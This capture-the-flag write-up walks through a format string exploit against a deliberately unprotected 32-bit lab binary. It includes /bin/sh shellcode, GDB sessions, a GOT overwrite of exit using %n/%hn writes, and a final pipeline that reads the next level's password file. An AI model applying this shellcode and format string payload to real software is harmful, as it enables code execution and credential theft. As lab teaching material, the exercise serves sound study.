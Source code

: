 ## LEVEL 05
---
### For a better understanding of the levels and the solutions, I recommend you to read the [disassemble file](./asm/level05.asm) and the [source file](./src/level05.c). This README only contains the most important parts to solve the level.
---
### Security
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level05/level05
```

#### For this level the usage of buffer overflow is possible, almost every security are removed.
---

This level is way shorted than the previous levels but that does means it's easier. I recommend that you read the entire source code to understand the rest of my explanation.

First thing I notice when I saw this level, is the usage of printf with a buffer. That means we can use a format string attack to leak and change the value of the program.

Second thing I notice is that the program doesn't use `ptrace` to prevent us from using a debugger. So we can use GDB again.

Third thing I didn't say any `system` call. That means we have to use a shellcode to get to flag.

And the last thing I notice is the call to `exit` at the end of the program. That means we can't overflow the return address but we can overwrite the address pointed by `exit<+0>`.

Now that we know what we have to do, the question is "How do we do it ?".

Before to do anything with GDB, I have to export the shellcode.

```bash
export SHELLCODE=$(python -c 'print "\x90"*64 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')
```

Now I search the address of this environment variable in our program.

```shell
(gdb) x/s *((char **)environ)
0xffffd889:	 "SHELLCODE=\220\220\220\220\220\220\220[...]
```

Perfect the address I will use is `0xffffd8a9`. Now I need to find the address of `exit<+0>`.

```shell
(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:	jmp    *0x80497e0
   [...]
```

The address is `0x080497e0`. Now I will do the same this as the level3 of rainfall. I will write this address, then the value to overwrite it's value with `%n`.
The last thing I need is the distance between %esp and here my buffe is stored.

```shell
(gdb) x/x $esp
0xffffd610:	0xffffd638
```
Perfect the distance is `0x28` or `40` in decimal. Let's try to overwrite the address pointed by `exit`.

```shell
(gdb) r < <(python -c 'print "\xe0\x97\x04\x08" + " %10$n"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/users/level05/level05 < <(python -c 'print "\xe0\x97\x04\x08" + " %10$n"')


Breakpoint 1, 0x0804850c in main ()
(gdb) x/x 0x080497e0
0x80497e0 <exit@got.plt>:	0x00000005
```

Now I convert the address of my shellcode in decimal. 
`ffffd8a9 <==> 4294957225`

```shell
(gdb) r < <(python -c 'print "\xe0\x97\x04\x08" + " %4294957225ld%10$n"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/users/level05/level05 < <(python -c 'print "\xe0\x97\x04\x08" + " %4294957225ld%10$n"')

Breakpoint 1, 0x0804850c in main ()
(gdb) x/x 0x080497e0
0x80497e0 <exit@got.plt>:	0x08048376
```

Oh, this is not what I expected, but why? The reason is that the number 4294957225 is too large to fit in a 32-bit register, and it may also be too long to be used as padding in `printf`. To solve this problem, I will use the `%hn` flag, which will write one WORD instead of one BYTE. For a more detailed explanation of how it works, I recommend reading the source code provided at the bottom of this README. It provides a well-explained description of the technique.

First we need to write two addresses, the address of `exit` and the address of `exit+2`.
To change word by word.

```shell
python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%10d%10$n" + "%20d%11$n"'
-- ADDRESS OF ONE --- ADDRESS OF TWO --- %{value to write}%{argument number where I change the value} --- %{value to write}%{argument number where I change the value}
```

Let's try it.

```shell
(gdb) r < <(python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%10d%10$n" + "%20d%11$n"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/users/level05/level05 < <(python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%10d%10$n" + "%20d%11$n"')
       100          -134415680

Breakpoint 1, 0x0804850c in main ()
(gdb) x/x 0x080497e0
0x80497e0 <exit@got.plt>:	0x00260012
```

Perfect, now I just need to change it with the address of my shellcode. But before I have to transform the address to fit in two WORD.

```
Initial address of shellcode -> 0xffffd8a9
First WORD : d8a9
- convert to decimal = 55465
- minus 8 = 55457 (Remove the addresses before)
==> 55457

Second WORD : ffff
- convert to decimal = 65535
- minus 8 = 65527 (Remove the addresses before)
- minus 55457 = 10070 (Remove the first WORD length)
==> 10070
```
Perfect now I just have to put it in my payload.

```shell
(gdb) r < <(python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55457d%10$n" + "%10070d%11$n"')
[...]
(gdb) x/x 0x080497e0
0x80497e0 <exit@got.plt>:	0xffffd8a9
(gdb) q
$ (python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55457d%10$n" + "%10070d%11$n"'; cat -) | ./level05
[...]
whoami
level06
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```

---

*Source :*

*https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf*